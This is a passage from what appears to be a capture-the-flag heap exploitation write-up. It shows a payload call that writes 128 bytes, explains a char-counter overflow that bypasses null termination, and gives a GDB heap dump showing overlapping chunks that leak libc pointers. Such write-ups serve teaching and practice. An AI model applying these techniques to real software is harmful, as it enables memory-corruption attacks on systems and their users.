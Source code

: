 ## deal with the null termination in inbuf  
I mentioned that the size 0xe0 was not chosen randomly. It is actually more
than that, if we request any larger or smaller sized chunk the next part of
the exploit will fail. The whole point of even allocating here is to push the
libc pointers lower down the heap so that chunk A overlaps with chunk B in a
very specific way

```  
payload = 0x80 * 'B'  
create(0,0x200,payload)  
```

now we malloc back chunk B and all of sudden, the libc addresses are in the
body of chunk B that is malloced!  
Not just that, we were also able to write exacly 128 Bs in chunk B and that's
how we bypassed the null termination  
from inbuf. The null byte gets written at 0x56257ccda420 + local_9 where
local_9 is the char counter that overflows to -128.

```  
0x56257ccda3a0: 0x0000000000000000      0x00000000000000f1  
0x56257ccda3b0: 0x0000000000000000      0x000056257ccda010  
0x56257ccda3c0: 0x000056257ccda3a0      0x000056257ccda3a0  
0x56257ccda3d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda3e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda3f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda400: 0x0000000000000000      0x0000000000000000  
0x56257ccda410: 0x0000000000000000      0x0000000000000211 <--- chunk B that
we just malloced back from tcache  
0x56257ccda420: 0x4242424242424242      0x4242424242424242 <--- the 0x80 or
128 Bs we wrote  
0x56257ccda430: 0x4242424242424242      0x4242424242424242  
0x56257ccda440: 0x4242424242424242      0x4242424242424242  
0x56257ccda450: 0x4242424242424242      0x4242424242424242  
0x56257ccda460: 0x4242424242424242      0x4242424242424242  
0x56257ccda470: 0x4242424242424242      0x4242424242424242  
0x56257ccda480: 0x4242424242424242      0x4242424242424242  
0x56257ccda490: 0x4242424242424242      0x4242424242424242 <--- chunk A that
overlaps with chunk B  
0x56257ccda4a0: 0x00007f6a2f4adbe0      0x00007f6a2f4adbe0 <--- pointers are
still here  
0x56257ccda4b0: 0x0000000000000000      0x0000000000000000  
0x56257ccda4c0: 0x0000000000000000      0x0000000000000000  
0x56257ccda4d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda4e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda4f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda500: 0x0000000000000000      0x0000000000000000  
0x56257ccda510: 0x0000000000000000      0x0000000000000000  
0x56257ccda520: 0x0000000000000000      0x0000000000000000  
0x56257ccda530: 0x0000000000000000      0x0000000000000000  
0x56257ccda540: 0x0000000000000000      0x0000000000000000  
0x56257ccda550: 0x0000000000000000      0x0000000000000000  
0x56257ccda560: 0x0000000000000000      0x0000000000000000  
0x56257ccda570: 0x0000000000000000      0x0000000000000000  
0x56257ccda580: 0x0000000000000000      0x0000000000000000  
0x56257ccda590: 0x0000000000000000      0x0000000000000000  
0x56257ccda5a0: 0x0000000000000000      0x0000000000000000  
0x56257ccda5b0: 0x0000000000000000      0x0000000000000000  
0x56257ccda5c0: 0x0000000000000000      0x0000000000000000  
0x56257ccda5d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda5e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda5f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda600: 0x0000000000000000      0x0000000000000000  
0x56257ccda610: 0x0000000000000000      0x0000000000000000  
```